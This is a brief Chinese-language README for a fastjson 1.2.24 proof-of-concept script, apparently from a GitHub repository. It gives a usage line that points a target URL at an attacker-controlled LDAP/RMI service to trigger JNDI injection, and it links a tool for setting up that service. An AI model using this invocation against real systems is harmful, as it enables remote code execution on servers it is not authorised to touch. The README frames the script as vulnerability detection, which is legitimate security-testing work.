 # fastjson-poc
fastjson 漏洞利用
## fastjson-1.2.24 poc
fastjson-1.2.24-poc.py 为检测fastjson 1.2.24版本漏洞
### 使用示例
```
说明：
python3 fastjson-1.2.24-poc.py -u url -r 远程调用的rmi/ldap服务
示例：
python fastjson-1.2.24.py -u http://10.0.0.135:8090/ -r ldap://10.0.0.135:1389/t1kg1e
```
**LDAP/RMI服务搭建可参考https://github.com/welk1n/JNDI-Injection-Exploit/**
